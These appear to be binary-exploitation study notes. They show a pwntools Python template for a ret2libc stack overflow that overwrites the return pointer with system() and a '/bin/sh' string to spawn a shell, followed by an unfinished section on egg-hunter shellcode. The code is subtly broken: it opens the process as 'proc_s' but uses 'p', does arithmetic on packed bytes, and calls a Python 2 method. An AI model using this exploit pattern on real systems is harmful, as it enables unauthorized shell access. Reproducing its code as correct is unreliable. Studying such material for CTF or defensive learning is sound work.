 ##### Automating The Process

+ In the above way we used a variety of tools and methods to determine locations of reference strings, function calls and offsets 
+ While this is useful because it helps us understand each step, pwntools can do **alot** of this for us
+ Note finding the address of libc on a remote system can be harder, here we assume remote is the same
as our local libc

```python
from pwn import *

proc_s = process('./<binary>')  

padding = b'<padding/offset-bytes>'                     # <-- overflow to just before return pointer

libc = ELF('libc-2.27.so')                              # <-- path to libc (remote (provided locally)/local)

p.recvlines(<lines>)                                    # <-- receive any banner messages

system_address = p32(<address-of-system>)               # <-- could be any address in libc, just need an offset
eax_system = b'AAAA'                                    # <-- Dummy Function Return Pointer

libc.address = system_address - libc.symbols['system']  # <-- Base of libc

bin_sh = p32(libc.search('/bin/sh').next())


payload = padding + system_address + eax_system + bin_sh

p.sendline(payload)
p.interactive()

```

## Egg Hunters

+ An egg hunter is a stack based buffer overflow strategy that allows execution of useful shellcode in a environment where the vulnerable buffer is too small to place enough shellcode to pop a shell

### Environmental Conditions

+ To utilise a egg hunter approach we need the following conditions to be satisfied
    + One one or more larger buffers that we can place shellcode into but cannot overflow (due to proper use of APIs or similar)
    + A smaller vulnerable buffer that we control
    + The size of memory pages or a leaked stack address

### Approach
